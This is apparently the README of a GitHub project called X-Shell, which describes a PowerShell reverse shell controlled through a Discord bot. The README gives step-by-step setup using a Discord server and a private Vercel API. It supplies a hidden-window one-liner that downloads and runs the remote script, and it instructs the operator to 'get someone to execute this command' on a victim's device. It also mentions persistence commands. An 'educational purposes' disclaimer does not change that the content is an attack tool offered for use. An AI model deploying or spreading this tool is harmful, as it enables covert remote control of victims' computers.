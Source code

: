 # X-Shell

### This is a simple powershell script that establishes a connection to a Discord server using a Bot to listen on a specified channel. All messages from that channel will be executed on the machine (reverse Shell). I also added an API, which returns the script when provided with the correct Bearer Token, making it easy to deploy the Reverse Shell on the Victims Device.


## Usage

1. Use this template to create a Discord server https://discord.new/AFkzNqmAdmex
2. Write down the Ids of #chat, the Users category and the server
3. Create a discord bot https://discord.com/developers/applications, get its Id and add it to the server
4. Fork this repo, make it private and edit `index.js`:
   - Edit the token in line 27 to whatever you like
   - Adjust lines 32-35 to match your written down Ids and the Bot token
   - Create a Vercel account if you haven't already and deploy your private GitHub repo
5. Now that you've set up the API, simply get someone to execute this command, where you replace the vercel site with yours and the token following after "Bearer", with the one you set in step 4
   
```powershell -c "Start-Process -WindowStyle Hidden powershell -ArgumentList '-c iex ((irm -Uri ''https://xyz.vercel.app'' -Headers @{''Authorization''=''Bearer xxx''}))'"```

#### If you encounter any issues feel free to open an Issue

<hr>
If you wan the Remote connection to be persistent, you could run different commands, found in `commands.txt`
<hr>
Even tho the API needs an authoriation Token, its still quite simple to fetch the powershell script and abuse the Discord Bot using the token. Ensure the api authorization token doesn't get wrong hands.
<hr>

## Disclaimer

This tool is for educational purposes only, and I do not assume any liability for any damages.
